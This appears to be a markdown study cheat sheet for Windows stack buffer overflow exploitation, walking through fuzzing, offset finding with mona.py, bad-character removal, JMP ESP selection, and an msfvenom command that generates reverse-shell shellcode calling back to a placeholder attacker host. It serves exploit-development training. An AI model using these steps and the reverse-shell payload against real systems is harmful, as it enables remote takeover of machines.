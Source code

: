 # Buffer Overflows
TLDR for Buffer Overflows...

## Methodology

###### Setup Immunity Debugger
- With **mona.py**, setup working folder based on program name:
```bash
!mona config -set workingfolder C:\logs\%p
```

###### Fuzzing
- Determine the RHOST/RPORT of the target box with the running application.
- Use the **fuzzer.py** template to configure a fuzzing script with Python3.
- Run the script against the target application, make note of when the app crashes (byte length + 400 extra bytes).

###### Offset
- Create your initial **exploit.py** script following the template.
- Generate a unique pattern equal to the length of bytes when the application crashed, you can do this with Metasploit's **pattern_create**.
```bash
pattern_create -l <length_of_bytes>
```
- Set the **payload** variable in the exploit script equal to the unique pattern.
- Run it against the application and with **mona.py** (in Immunity Debugger), determine the offset.
```bash
!mona findmsp -distance <length_of_bytes>
```
- The offset will be outlined as 'xxxx':
```txt
EIP contains normal pattern : 0x000000 (offset xxxx)
```
- Test that you can control the **EIP** now, to do this, modify your exploit script to include the value of the **offset** in its respectable variable.
- Modify the **retn** variable to 'BBBB' and the **payload** variable to an empty string.
- Use the script against the application again, make sure the EIP is now **42424242**.

###### Badchars
- With **mona.py**, generate a bytearray without `\x00` (null byte).
```bash
!mona bytearray -cpb "\x00"
```
- Using the **badchars.py** script, generate the same array and modify the **payload** variable in your exploit script with the output. Send it to the application again.
- Now with **mona.py**, compare the bytearray with the **ESP** address.
```bash
!mona compare -f C:\logs\<prgoram>\bytearray.bin -a <ESP_address>
```
- This will give you a list of all the badchars found, some may not be badchars however (remove the initial badchars first). Now generate a new bytearray with the badchars removed, update your script's **payload** variable to match, send it again and repeat this process until **mona.py**'s output is 'unmodified'.
- NOTE: You can also just review the **Hex dump** manually instead of using **mona.py** for identifying badchars.

###### Finding Jump Point
- With **mona.py** we can a find 'jump point' **JMP ESP**, make sure to exclude the badchars identified when doing this.
```bash
!mona jmp -r esp -cpb "\x00"
```
- This will show some results with different memory addresses, none of which will include badchars. Choose one, ideally with ASLR disabled.
- Modify your exploit script with the memory address identified in Little Endian format (backwards i.e. 0F6A32C2 = \xc2\x32\x6a\x0f) for the **retn** variable.

###### Payload Development
- Now, with Metasploit's **msfvenom**, generate shellcode in 'c' format and excluding your badchars.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<your-ip> LPORT=<your-port> EXITFUNC=thread -b "\x00" -f c
```
- Update your exploit script to include the output of the generated payload in the **payload** variable.
```python
payload = ("xxxx")
```
- Update your **padding** variable to include some NOPS (\x90), 32 to be safe, this will give your payload time to unpack.
```python
padding = "\x90" * 32
```
- Execute your exploit and catch a shell!
